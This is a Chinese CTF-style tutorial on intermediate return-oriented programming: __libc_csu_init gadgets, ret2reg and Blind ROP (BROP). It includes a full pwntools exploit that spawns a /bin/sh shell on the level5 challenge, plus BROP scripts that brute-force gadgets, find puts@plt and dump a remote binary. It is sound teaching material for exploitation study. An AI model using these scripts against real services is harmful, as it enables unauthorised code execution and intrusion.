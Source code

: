 .. role:: raw-latex(raw)
   :format: latex
..

中级ROP
=======

中级ROP主要是使用了一些比较巧妙的Gadgets。

ret2\_\_libc\_scu\_init
=======================

原理
----

在64位程序中，函数的前6个参数是通过寄存器传递的，但是大多数时候，我们很难找到每一个寄存器对应的gadgets。
这时候，我们可以利用x64下的\_\_libc\_scu\_init中的gadgets。这个函数是用来对libc进行初始化操作的，而一般的程序都会调用libc函数，所以这个函数一定会存在。我们先来看一下这个函数(当然，不同版本的这个函数有一定的区别)

.. code:: assembly

    .text:00000000004005C0 ; void _libc_csu_init(void)
    .text:00000000004005C0                 public __libc_csu_init
    .text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
    .text:00000000004005C0                 push    r15
    .text:00000000004005C2                 push    r14
    .text:00000000004005C4                 mov     r15d, edi
    .text:00000000004005C7                 push    r13
    .text:00000000004005C9                 push    r12
    .text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
    .text:00000000004005D2                 push    rbp
    .text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
    .text:00000000004005DA                 push    rbx
    .text:00000000004005DB                 mov     r14, rsi
    .text:00000000004005DE                 mov     r13, rdx
    .text:00000000004005E1                 sub     rbp, r12
    .text:00000000004005E4                 sub     rsp, 8
    .text:00000000004005E8                 sar     rbp, 3
    .text:00000000004005EC                 call    _init_proc
    .text:00000000004005F1                 test    rbp, rbp
    .text:00000000004005F4                 jz      short loc_400616
    .text:00000000004005F6                 xor     ebx, ebx
    .text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
    .text:0000000000400600
    .text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
    .text:0000000000400600                 mov     rdx, r13
    .text:0000000000400603                 mov     rsi, r14
    .text:0000000000400606                 mov     edi, r15d
    .text:0000000000400609                 call    qword ptr [r12+rbx*8]
    .text:000000000040060D                 add     rbx, 1
    .text:0000000000400611                 cmp     rbx, rbp
    .text:0000000000400614                 jnz     short loc_400600
    .text:0000000000400616
    .text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
    .text:0000000000400616                 add     rsp, 8
    .text:000000000040061A                 pop     rbx
    .text:000000000040061B                 pop     rbp
    .text:000000000040061C                 pop     r12
    .text:000000000040061E                 pop     r13
    .text:0000000000400620                 pop     r14
    .text:0000000000400622                 pop     r15
    .text:0000000000400624                 retn
    .text:0000000000400624 __libc_csu_init endp

这里我们可以利用以下几点

-  从0x000000000040061A一直到结尾，我们可以利用栈溢出构造栈上数据来控制rbx,rbp,r12,r13,r14,r15寄存器的数据。
-  从0x0000000000400600到0x0000000000400609，我们可以将r13赋给rdx,将r14赋给rsi，将r15d赋给edi（需要注意的是，虽然这里赋给的是edi，\ **但其实此时rdi的高32位寄存器值为0（自行调试）**\ ，所以其实我们可以控制rdi寄存器的值，只不过只能控制低32位），而这三个寄存器，也是x64函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制r12与rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制rbx为0，r12为存储我们想要调用的函数的地址。
-  从0x000000000040060D到0x0000000000400614，我们可以控制rbx与rbp的之间的关系为rbx+1=rbp，这样我们就不会执行loc\_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

示例
----

这里我们以蒸米的一步一步学ROP之linux\_x64篇中level5为例进行介绍。首先检查程序的安全保护

.. code:: shell

    ➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5   
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

程序为64位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

.. code:: c

    ssize_t vulnerable_function()
    {
      char buf; // [sp+0h] [bp-80h]@1

      return read(0, &buf, 0x200uLL);
    }

简单浏览下程序，发现程序中既没有system函数地址，也没有/bin/sh字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用system函数来获取shell失败了，应该是环境变量的问题，所以这里使用的是execve来获取shell。**

基本利用思路如下

-  利用栈溢出执行libc\_csu\_gadgets获取write函数地址，并使得程序重新执行main函数
-  根据libcsearcher获取对应libc版本以及execve函数地址
-  再次利用栈溢出执行libc\_csu\_gadgets向bss段写入execve地址以及'/bin/sh’地址，并使得程序重新执行main函数。
-  再次利用栈溢出执行libc\_csu\_gadgets执行execve('/bin/sh')获取shell。

exp如下

.. code:: python

    from pwn import *
    from LibcSearcher import LibcSearcher

    #context.log_level = 'debug'

    level5 = ELF('./level5')
    sh = process('./level5')

    write_got = level5.got['write']
    read_got = level5.got['read']
    main_addr = level5.symbols['main']
    bss_base = level5.bss()
    csu_front_addr = 0x0000000000400600
    csu_end_addr = 0x000000000040061A
    fakeebp = 'b' * 8


    def csu(rbx, rbp, r12, r13, r14, r15, last):
        # pop rbx,rbp,r12,r13,r14,r15
        # rbx should be 0,
        # rbp should be 1,enable not to jump
        # r12 should be the function we want to call
        # rdi=edi=r15d
        # rsi=r14
        # rdx=r13
        payload = 'a' * 0x80 + fakeebp
        payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
            r13) + p64(r14) + p64(r15)
        payload += p64(csu_front_addr)
        payload += 'a' * 0x38
        payload += p64(last)
        sh.send(payload)
        sleep(1)


    sh.recvuntil('Hello, World\n')
    # RDI, RSI, RDX, RCX, R8, R9, more on the stack
    # write(1,write_got,8)
    csu(0, 1, write_got, 8, write_got, 1, main_addr)

    write_addr = u64(sh.recv(8))
    libc = LibcSearcher('write', write_addr)
    libc_base = write_addr - libc.dump('write')
    execve_addr = libc_base + libc.dump('execve')
    log.success('execve_addr ' + hex(execve_addr))
    #gdb.attach(sh)

    # read(0,bss_base,16)
    # read execve_addr and /bin/sh\x00
    sh.recvuntil('Hello, World\n')
    csu(0, 1, read_got, 16, bss_base, 0, main_addr)
    sh.send(p64(execve_addr) + '/bin/sh\x00')

    sh.recvuntil('Hello, World\n')
    # execve(bss_base+8)
    csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
    sh.interactive()

思考
----

改进
~~~~

在上面的时候，我们直接利用了这个通用gadgets，其输入的字节长度为128。但是，并不是所有的程序漏洞都可以让我们输入这么长的字节。那么当允许我们输入的字节数较少的时候，我们该怎么有什么办法呢？下面给出了几个方法

改进1-提前控制rbx与rbp
^^^^^^^^^^^^^^^^^^^^^^

可以看到在我们之前的利用中，我们利用这两个寄存器的值的主要是为了满足cmp的条件，并进行跳转。如果我们可以提前控制这两个数值，那么我们就可以减少16字节，即我们所需的字节数只需要112。

改进2-多次利用
^^^^^^^^^^^^^^

其实，改进1也算是一种多次利用。我们可以看到我们的gadgets是分为两部分的，那么我们其实可以进行两次调用来达到的目的，以便于减少一次gadgets所需要的字节数。但这里的多次利用需要更加严格的条件

-  漏洞可以被多次触发
-  在两次触发之间，程序尚未修改r12-r15寄存器，这是因为要两次调用。

**当然，有时候我们也会遇到一次性可以读入大量的字节，但是不允许漏洞再次利用的情况，这时候就需要我们一次性将所有的字节布置好，之后慢慢利用。**

gadget
~~~~~~

其实，除了上述这个gadgets，gcc默认还会编译进去一些其它的函数

.. code:: text

    _init
    _start
    call_gmon_start
    deregister_tm_clones
    register_tm_clones
    __do_global_dtors_aux
    frame_dummy
    __libc_csu_init
    __libc_csu_fini
    _fini

我们也可以尝试利用其中的一些代码来进行执行。此外，由于PC本身只是将程序的执行地址处的数据传递给CPU，而CPU则只是对传递来的数据进行解码，只要解码成功，就会进行执行。所以我们可以将源程序中一些地址进行偏移从而来获取我们所想要的指令，只要可以确保程序不崩溃。

需要一说的是，在上面的libc\_csu\_init中我们主要利用了以下寄存器

-  利用尾部代码控制了rbx，rbp，r12，r13，r14，r15。
-  利用中间部分的代码控制了rdx，rsi，edi。

而其实libc\_csu\_init的尾部通过偏移是可以控制其他寄存器的。其中，0x000000000040061A是正常的起始地址，\ **可以看到我们在0x000000000040061f处可以控制rbp寄存器，在0x0000000000400621处可以控制rsi寄存器。**\ 而如果想要深入地了解这一部分的内容，就要对汇编指令中的每个字段进行更加透彻地理解。如下。

.. code:: assembly

    gef➤  x/5i 0x000000000040061A
       0x40061a <__libc_csu_init+90>:   pop    rbx
       0x40061b <__libc_csu_init+91>:   pop    rbp
       0x40061c <__libc_csu_init+92>:   pop    r12
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
    gef➤  x/5i 0x000000000040061b
       0x40061b <__libc_csu_init+91>:   pop    rbp
       0x40061c <__libc_csu_init+92>:   pop    r12
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
    gef➤  x/5i 0x000000000040061A+3
       0x40061d <__libc_csu_init+93>:   pop    rsp
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret 
    gef➤  x/5i 0x000000000040061e
       0x40061e <__libc_csu_init+94>:   pop    r13
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x000000000040061f
       0x40061f <__libc_csu_init+95>:   pop    rbp
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x0000000000400620
       0x400620 <__libc_csu_init+96>:   pop    r14
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
       0x400626:    nop    WORD PTR cs:[rax+rax*1+0x0]
    gef➤  x/5i 0x0000000000400621
       0x400621 <__libc_csu_init+97>:   pop    rsi
       0x400622 <__libc_csu_init+98>:   pop    r15
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
    gef➤  x/5i 0x000000000040061A+9
       0x400623 <__libc_csu_init+99>:   pop    rdi
       0x400624 <__libc_csu_init+100>:  ret    
       0x400625:    nop
       0x400626:    nop    WORD PTR cs:[rax+rax*1+0x0]
       0x400630 <__libc_csu_fini>:  repz ret 

题目
----

-  2016 XDCTF pwn100
-  2016 华山杯 SU\_PWN

参考阅读

-  http://wooyun.jozxing.cc/static/drops/papers-7551.html
-  http://wooyun.jozxing.cc/static/drops/binary-10638.html

ret2reg
=======

原理
----

1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2. 然后反编译二进制，查找call reg 或者jmp reg指令，将
   EIP设置为该指令地址
3. reg所指向的空间上注入Shellcode(需要确保该空间是可以执行的，但通常都是栈上的)

BROP
====

基本介绍
--------

BROP(Blind ROP)于2014年由Standford的Andrea
Bittau提出，其相关研究成果发表在Oakland 2014，其论文题目是\ **Hacking
Blind**\ ，下面是作者对应的paper和slides,以及作者相应的介绍

-  `paper <http://www.scs.stanford.edu/brop/bittau-brop.pdf>`__
-  `slide <http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf>`__

BROP是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件
--------

1. 源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2. 服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有ASLR保护，但是其只是在程序最初启动的时候有效果）。目前nginx,
   MySQL, Apache, OpenSSH等服务器应用都是符合这种特性的。

攻击原理
--------

目前，大部分应用都会开启ASLR、NX、Canary保护。这里我们分别讲解在BROP中如何绕过这些保护，以及如何进行攻击。

基本思路
~~~~~~~~

在BROP中，基本的遵循的思路如下

-  判断栈溢出字符串长度
-  暴力枚举
-  Stack Reading
-  获取栈上的数据来泄露canaries，以及ebp和返回地址。
-  Bind ROP
-  找到足够多的gadgets来控制输出函数的参数，并且对其进行调用，比如说常见的write函数以及puts函数。
-  Build the exploit
-  利用输出函数来dump出程序以便于来找到更多的gadgets，从而可以写出最后的exploit。

栈溢出长度
~~~~~~~~~~

直接从1暴力枚举即可，直到发现程序崩溃。

Stack Reading
~~~~~~~~~~~~~

如下所示，这是目前经典的栈布局

::

    buffer|canary|saved fame pointer|saved returned address

要向得到canary以及之后的变量，我们需要解决第一个问题，如何得到overflow的长度，这个可以通过不断尝试来获取。

其次，关于canary以及后面的变量，所采用的的方法一致，这里我们以canary为例。

canary本身可以通过爆破来获取，但是如果只是愚蠢地枚举所有的数值的话，显然是低效的。

需要注意的是，攻击条件2表明了程序本身并不会因为crash有变化，所以每次的canary等值都是一样的。所以我们可以按照字节进行爆破。正如论文中所展示的，每个字节最多有256种可能，所以在32位的情况下，我们最多需要爆破1024次，64位最多爆破2048次。

.. figure:: /pwn/stackoverflow/figure/stack_reading.png
   :alt: 

Blind ROP
~~~~~~~~~

基本思路
^^^^^^^^

最朴素的执行write函数的方法就是构造系统调用。

.. code:: assembly

    pop rdi; ret # socket
    pop rsi; ret # buffer
    pop rdx; ret # length
    pop rax; ret # write syscall number
    syscall

但通常来说，这样的方法都是比较困难的，因为想要找到一个syscall的地址基本不可能。。。我们可以通过转换为找write的方式来获取。

BROP gadgets
''''''''''''

首先，在libc\_csu\_init的结尾一长串的gadgets，我们可以通过偏移来获取write函数调用的前两个参数。正如文中所展示的

.. figure:: /pwn/stackoverflow/figure/brop_gadget.png
   :alt: 

find a call write
'''''''''''''''''

我们可以通过plt表来获取write的地址。

control rdx
'''''''''''

需要注意的是，rdx只是我们用来输出程序字节长度的变量，只要不为0即可。一般来说程序中的rdx经常性会不是零。但是为了更好地控制程序输出，我们仍然尽量可以控制这个值。但是，在程序

.. code:: assembly

    pop rdx; ret

这样的指令几乎没有。那么，我们该如何控制rdx的数值呢？这里需要说明执行strcmp的时候，rdx会被设置为将要被比较的字符串的长度，所以我们可以找到strcmp函数，从而来控制rdx。

那么接下来的问题，我们就可以分为两项

-  寻找gadgets
-  寻找PLT表
-  write入口
-  strcmp入口

寻找gadgets
^^^^^^^^^^^

首先，我们来想办法寻找gadgets。此时，由于尚未知道程序具体长什么样，所以我们只能通过简单的控制程序的返回地址为自己设置的值，从而而来猜测相应的gadgets。而当我们控制程序的返回地址时，一般有以下几种情况

-  程序直接崩溃
-  程序运行一段时间后崩溃
-  程序一直运行而并不崩溃

为了寻找合理的gadgets，我们可以分为以下两步

寻找stop gadgets
''''''''''''''''

所谓\ ``stop gadget``\ **一般**\ 指的是这样一段代码：当程序的执行这段代码时，程序会进入无限循环，这样使得攻击者能够一直保持连接状态。

    其实stop
    gadget也并不一定得是上面的样子，其根本的目的在于告诉攻击者，所测试的返回地址是一个gadgets。

之所以要寻找stop
gadgets，是因为当我们猜到某个gadgtes后，如果我们仅仅是将其布置在栈上，由于执行完这个gadget之后，程序还会跳到栈上的下一个地址。如果该地址是非法地址，那么程序就会crash。这样的话，在攻击者看来程序只是单纯的crash了。因此，攻击者就会认为在这个过程中并没有执行到任何的\ ``useful gadget``\ ，从而放弃它。例子如下图

.. figure:: /pwn/stackoverflow/figure/stop_gadget.png
   :alt: 

但是，如果我们布置了\ ``stop gadget``\ ，那么对于我们所要尝试的每一个地址，如果它是一个gadget的话，那么程序不会崩溃。接下来，就是去想办法识别这些gadget。

识别 gadgets
''''''''''''

那么，我们该如何识别这些gadgets呢？我们可以通过栈布局以及程序的行为来进行识别。为了更加容易地进行介绍，这里定义栈上的三种地址

-  **Probe**
-  探针，也就是我们想要探测的代码地址。一般来说，都是64位程序，可以直接从0x400000尝试，如果不成功，有可能程序开启了PIE保护，再不济，就可能是程序是32位了。。这里我还没有特别想明白，怎么可以快速确定远程的位数。
-  **Stop**
-  不会使得程序崩溃的stop gadget的地址。
-  **Trap**
-  可以导致程序崩溃的地址

我们可以通过在栈上摆放不同顺序的\ **Stop**\ 与
**Trap**\ 从而来识别出正在执行的指令。因为执行Stop意味着程序不会崩溃，执行Trap意味着程序会立即崩溃。这里给出几个例子

-  probe,stop,traps(traps,traps,...)
-  我们通过程序崩溃与否(\ **如果程序在probe处直接崩溃怎么判断**)可以找到不会对栈进行pop操作的gadget，如

   -  ret
   -  xor eax,eax; ret

-  probe,trap,stop,traps
-  我们可以通过这样的布局找到只是弹出一个栈变量的gadget。如

   -  pop rax; ret
   -  pop rdi; ret

-  probe, trap, trap, trap, trap, trap, trap, stop, traps
-  我们可以通过这样的布局来找到弹出6个栈变量的gadget，也就是与brop
   gadget相似的gadget。\ **这里感觉原文是有问题的，比如说如果遇到了只是pop一个栈变量的地址，其实也是不会崩溃的，，**\ 这里一般来说会遇到两处比较有意思的地方

   -  plt处不会崩，，
   -  \_start处不会崩，相当于程序重新执行。

之所以要在每个布局的后面都放上trap，是为了能够识别出，当我们的probe处对应的地址执行的指令跳过了stop，程序立马崩溃的行为。

但是，即使是这样，我们仍然难以识别出正在执行的gadget到底是在对哪个寄存器进行操作。

但是，需要注意的是向BROP这样的一下子弹出6个寄存器的gadgets，程序中并不经常出现。所以，如果我们发现了这样的gadgets，那么，有很大的可能性，这个gadgets就是brop
gadgets。此外，这个gadgets通过错位还可以生成

-  pop rsp

等这样的gadgets，可以使得程序崩溃也可以作为识别这个gadgets的标志。

**此外，根据我们之前学的ret2libc\_csu\_init可以知道该地址减去0x1a就会得到其上一个gadgets。可以供我们调用其它函数。**

**需要注意的是probe可能是一个stop
gadget，我们得去检查一下，怎么检查呢？我们只需要让后面所有的内容变为trap地址即可。因为如果是stop
gadget的话，程序会正常执行，否则就会崩溃。看起来似乎很有意思**

寻找PLT
^^^^^^^

如下图所示，程序的plt表具有比较规整的结构，每一个plt表项都是16字节。而且，在每一个表项的6字节偏移处，是该表项对应的函数的解析路径，即程序最初执行该函数的时候，会执行该路径对函数的got地址进行解析。

.. figure:: /pwn/stackoverflow/figure/brop_plt.png
   :alt: 

此外，对于大多数plt调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果我们发现了一系列的长度为16的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了plt表。除此之外，我们还可以通过前后偏移6字节，来判断我们是处于plt表项中间还是说处于开头。

控制rdx
^^^^^^^

当我们找到plt表之后，下面，我们就该想办法来控制rdx的数值了，那么该如何确认strcmp的位置呢？需要提前说的是，并不是所有的程序都会调用strcmp函数，所以在没有调用strcmp函数的情况下，我们就得利用其它方式来控制rdx的值了。这里给出程序中使用strcmp函数的情况。

之前，我们已经找到了brop的gadgets，所以我们可以控制函数的前两个参数了。与此同时，我们定义以下两种地址

-  readable，可读的地址。
-  bad, 非法地址，不可访问，比如说0x0。

那么我们如果控制传递的参数为这两种地址的组合，会出现以下四种情况

-  strcmp(bad,bad)
-  strcmp(bad,readable)
-  strcmp(readable,bad)
-  strcmp(readable,readable)

只有最后一种格式，程序才会正常执行。

**注**\ ：在没有PIE保护的时候，64位程序的ELF文件的0x400000处有7个非零字节。

那么我们该如何具体地去做呢？有一种比较直接的方法就是从头到尾依次扫描每个plt表项，但是这个却比较麻烦。我们可以选择如下的一种方法

-  利用plt表项的慢路径
-  并且利用下一个表项的慢路径的地址来覆盖返回地址

这样，我们就不用来回控制相应的变量了。

当然，我们也可能碰巧找到strncmp或者strcasecmp函数，它们具有和strcmp一样的效果。

寻找输出函数
^^^^^^^^^^^^

寻找输出函数既可以寻找write，也可以寻找puts。一般现先找puts函数。不过这里为了介绍方便，先介绍如何寻找write。

寻找write@plt
'''''''''''''

当我们可以控制write函数的三个参数的时候，我们就可以再次遍历所有的plt表，根据write函数将会输出内容来找到对应的函数。需要注意的是，这里有个比较麻烦的地方在于我们需要找到文件描述符的值。一般情况下，我们有两种方法来找到这个值

-  使用rop chain，同时使得每个rop对应的文件描述符不一样
-  同时打开多个连接，并且我们使用相对较高的数值来试一试。

需要注意的是

-  linux默认情况下，一个进程最多只能打开1024个文件描述符。
-  posix标准每次申请的文件描述符数值总是当前最小可用数值。

当然，我们也可以选择寻找puts函数。

寻找puts@plt
''''''''''''

寻找puts函数(这里我们寻找的是
plt)，我们自然需要控制rdi参数，在上面，我们已经找到了brop
gadget。那么，我们根据brop
gadget偏移9可以得到相应的gadgets（由ret2libc\_csu\_init中后续可得）。同时在程序还没有开启PIE保护的情况下，0x400000处为ELF文件的头部，其内容为:raw-latex:`\x`7fELF。所以我们可以根据这个来进行判断。一般来说，其payload如下

::

    payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

攻击总结
~~~~~~~~

此时，攻击者已经可以控制输出函数了，那么攻击者就可以输出.text段更多的内容以便于来找到更多合适gadgets。同时，攻击者还可以找到一些其它函数，如dup2或者execve函数。一般来说，攻击者此时会去做下事情

-  将socket输出重定向到输入输出
-  寻找“/bin/sh”的地址。一般来说，最好是找到一块可写的内存，利用write函数将这个字符串写到相应的地址。
-  执行execve获取shell，获取execve不一定在plt表中，此时攻击者就需要想办法执行系统调用了。

例子
----

这里我们以HCTF2016的出题人失踪了为例，相关的部署文件都放在了example文件夹下的对应目录下。基本思路如下

确定栈溢出长度
~~~~~~~~~~~~~~

.. code:: python

    def getbufferflow_length():
        i = 1
        while 1:
            try:
                sh = remote('127.0.0.1', 9999)
                sh.recvuntil('WelCome my friend,Do you know password?\n')
                sh.sendline(i * 'a')
                output = sh.recv()
                sh.close()
                if not output.startswith('No password'):
                    return i - 1
                else:
                    i += 1
            except EOFError:
                sh.close()
                return i - 1

根据上面，我们可以确定，栈溢出的长度为72。同时，根据回显信息可以发现程序并没有开启canary保护，否则，就会有相应的报错内容。所以我们不需要执行stack
reading。

寻找 stop gadgets
~~~~~~~~~~~~~~~~~

寻找过程如下

.. code:: python

    def get_stop_addr(length):
        addr = 0x400000
        while 1:
            try:
                sh = remote('127.0.0.1', 9999)
                sh.recvuntil('password?\n')
                payload = 'a' * length + p64(addr)
                sh.sendline(payload)
                sh.recv()
                sh.close()
                print 'one success addr: 0x%x' % (addr)
                return addr
            except Exception:
                addr += 1
                sh.close()

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

.. code:: text

    one success stop gadget addr: 0x4006b6

识别brop gadgets
~~~~~~~~~~~~~~~~

下面，我们根据上面介绍的原理来得到对应的brop
gadgets地址。构造如下，get\_brop\_gadget是为了得到可能的brop
gadget，后面的check\_brop\_gadget是为了检查。

.. code:: python

    def get_brop_gadget(length, stop_gadget, addr):
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
                stop_gadget) + p64(0) * 10
            sh.sendline(payload)
            content = sh.recv()
            sh.close()
            print content
            # stop gadget returns memory
            if not content.startswith('WelCome'):
                return False
            return True
        except Exception:
            sh.close()
            return False


    def check_brop_gadget(length, addr):
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr) + 'a' * 8 * 10
            sh.sendline(payload)
            content = sh.recv()
            sh.close()
            return False
        except Exception:
            sh.close()
            return True


    #length = getbufferflow_length()
    length = 72
    #get_stop_addr(length)
    stop_gadget = 0x4006b6
    addr = 0x400740
    while 1:
        print hex(addr)
        if get_brop_gadget(length, stop_gadget, addr):
            print 'possible brop gadget: 0x%x' % addr
            if check_brop_gadget(length, addr):
                print 'success brop gadget: 0x%x' % addr
                break
        addr += 1

这样，我们基本得到了brop的gadgets地址0x4007ba

确定puts@plt地址
~~~~~~~~~~~~~~~~

根据上面，所说我们可以构造如下payload来进行获取

.. code:: text

    payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

具体函数如下

.. code:: python

    def get_puts_addr(length, rdi_ret, stop_gadget):
        addr = 0x400000
        while 1:
            print hex(addr)
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
                addr) + p64(stop_gadget)
            sh.sendline(payload)
            try:
                content = sh.recv()
                if content.startswith('\x7fELF'):
                    print 'find puts@plt addr: 0x%x' % addr
                    return addr
                sh.close()
                addr += 1
            except Exception:
                sh.close()
                addr += 1

最后根据plt的结构，选择0x400560作为puts@plt

泄露puts@got地址
~~~~~~~~~~~~~~~~

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下

.. code:: python

    def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
        sh = remote('127.0.0.1', 9999)
        payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
            puts_plt) + p64(stop_gadget)
        sh.recvuntil('password?\n')
        sh.sendline(payload)
        try:
            data = sh.recv()
            sh.close()
            try:
                data = data[:data.index("\nWelCome")]
            except Exception:
                data = data
            if data == "":
                data = '\x00'
            return data
        except Exception:
            sh.close()
            return None


    #length = getbufferflow_length()
    length = 72
    #stop_gadget = get_stop_addr(length)
    stop_gadget = 0x4006b6
    #brop_gadget = find_brop_gadget(length,stop_gadget)
    brop_gadget = 0x4007ba
    rdi_ret = brop_gadget + 9
    #puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
    puts_plt = 0x400560
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
        if data is None:
            continue
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了':raw-latex:`\x`00'，因为puts是输出字符串，字符串是以':raw-latex:`\x`00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase
program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

.. code:: text

    seg000:0000000000400560                 db 0FFh
    seg000:0000000000400561                 db  25h ; %
    seg000:0000000000400562                 db 0B2h ; 
